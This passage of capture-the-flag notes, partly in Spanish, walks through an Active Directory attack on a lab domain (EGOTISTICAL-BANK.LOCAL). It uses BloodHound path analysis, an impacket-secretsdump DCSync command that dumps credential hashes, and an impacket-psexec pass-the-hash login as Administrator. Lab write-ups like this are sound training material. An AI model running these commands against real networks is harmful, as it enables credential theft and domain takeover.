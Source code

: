 ```bash
bloodhound &>/dev/null & disown
# INGRESAR CREDENCIALES DE ACCESO


# SEGUIR SECUENCIA EN BLOODHOUND
> Upload Data > bloodhound.zip > Analysis > Find all domain admins
										  > Find shortest paths to domain admins > Domain
# MARCAR USUARIOS PWNED
Buscar user > mark user as owned										  

# ESCALAMIENTO
Node info > Outbound control rights > First degree object control
```

## DCSYNC ATTACK
```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@<IP>
```

## GRANTING ACCESS ADMINISTRATOR USER (PASS THE HASH)
```bash
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@<IP> cmd.exe -hashes <HASH_NT>
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
